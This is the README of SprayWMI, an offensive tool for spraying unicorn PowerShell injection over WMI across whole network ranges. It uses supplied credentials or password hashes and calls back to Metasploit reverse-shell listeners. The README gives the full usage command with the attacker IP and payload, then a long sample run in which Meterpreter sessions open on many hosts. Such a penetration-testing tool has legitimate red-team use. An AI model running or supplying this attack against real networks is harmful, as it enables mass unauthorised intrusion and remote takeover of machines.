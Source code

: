 SprayWMI is a method for mass spraying unicorn powershell injection to CIDR notations.

Written by David Kennedy @TrustedSec
Special thanks: Justin Elze and Larry Spohn

Initial Blog: https://www.trustedsec.com/june-2015/no_psexec_needed/
if you have trouble with this on 64 bit - try:
dpkg --add-architecture i386 && apt-get update && apt-get install libpam0g:i386 && apt-get install libpopt0:i386

Flag descriptions:

DOMAIN - domain you are attacking - if its local, just specify workgroup

USERNAME - username to authenticate on the remote Windows system
PASSWORD - password or password hash lm:ntlm to use on the remote Windows system
CIDR_RANGE,CIDR_RANGE or ips.txt - you can specify a single ip, a CIDR range (192.168.1.1/24) or multiple CIDRs such as 192.168.1.1/24,192.168.2.1/24. You can also specify a file (ex: file.txt) which has single IP addresses on a new line. 
METASPLOIT_PAYLOAD - this is the payload you want to use example: windows/meterpreter/reverse_tcp
REVERSE_SHELL_IP - this is the IP address of your attacker machine that you want to create a listener or use an already established listener
REVERSE_SHELL_PORT - port to connect back on for the reverse
OPTIONAL: NO - specify no if you do not want to create a listener - this is useful if you already have a listener established. If you do not specify a value here, it will automatically create a listener for you.

Usage: python spraywmi.py <domain> <username> <password or hash lm:ntlm> <cidr_range,cidr_range or ips.txt> <metasploit_payload> <reverse_shell_ip> <reverse_shell_port> <optional: no>

Below is an example of output from spraywmi:

root@stronghold:/home/relik# python spraywmi.py TS kennedy-test complexP255w0rd! 192.168.90.1/24,192.168.0.1/24,192.168.59.1/24,192.168.96.1/24,192.168.1.1/24 windows/meterpreter/reverse_tcp 192.168.47.24 443
[*] Generating shellcode through unicorn, could take a few seconds...
[*] Launching the listener in the background...
[*] Waiting for the listener to start first before we continue forward...
[*] Be patient, Metaploit takes a little bit to start...
[*] Sweeping network for ports that are open first, then moving through... Be patient.
[*] Launching WMI spray against IP: 192.168.90.1 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.2 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.7 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.11 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.14 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.16 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.18 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.25 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.30 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.37 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.38 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.39 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.41 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.46 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.52 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.53 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.54 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.55 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.58 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.63 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.64 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.101 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.102 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.106 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.107 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.113 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.119 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.151 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.158 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.159 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.171 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.174 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.175 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.176 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.183 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.184 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.187 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.197 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.199 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.203 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.204 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.208 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.216 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.223 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.225 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.227 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.228 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.231 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.237 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.240 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.244 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.248 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.252 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.1 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.2 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.3 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.4 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.92 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.3 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.4 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.11 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.12 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.20 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.21 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.22 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.23 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.242 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.1.13 - you should have a shell in the background. Once finished, shell will spawn
[*] Spraying is still happening in the background, shells should arrive as they complete.
[*] Interacting with Metasploit...
...
msf exploit(handler) > 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.174
[*] Meterpreter session 1 opened (192.168.47.24:443 -> 192.168.90.174:49868) at 2015-10-13 04:33:55 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.203
[*] Meterpreter session 2 opened (192.168.47.24:443 -> 192.168.90.203:51333) at 2015-10-13 04:33:59 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.184
[*] Meterpreter session 3 opened (192.168.47.24:443 -> 192.168.90.184:61218) at 2015-10-13 04:34:02 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.204
[*] Meterpreter session 4 opened (192.168.47.24:443 -> 192.168.90.204:54219) at 2015-10-13 04:34:06 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.175
[*] Meterpreter session 5 opened (192.168.47.24:443 -> 192.168.90.175:54210) at 2015-10-13 04:34:10 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.16
[*] Meterpreter session 6 opened (192.168.47.24:443 -> 192.168.90.16:56657) at 2015-10-13 04:34:14 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.96.242
[*] Meterpreter session 7 opened (192.168.47.24:443 -> 192.168.96.242:49504) at 2015-10-13 04:34:18 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.183
[*] Meterpreter session 8 opened (192.168.47.24:443 -> 192.168.90.183:56926) at 2015-10-13 04:34:28 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.248
[*] Meterpreter session 9 opened (192.168.47.24:443 -> 192.168.90.248:53657) at 2015-10-13 04:34:31 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.39
[*] Meterpreter session 10 opened (192.168.47.24:443 -> 192.168.90.39:60451) at 2015-10-13 04:34:35 -0400
[*] Encoded stage with x86/shikata_ga_nai
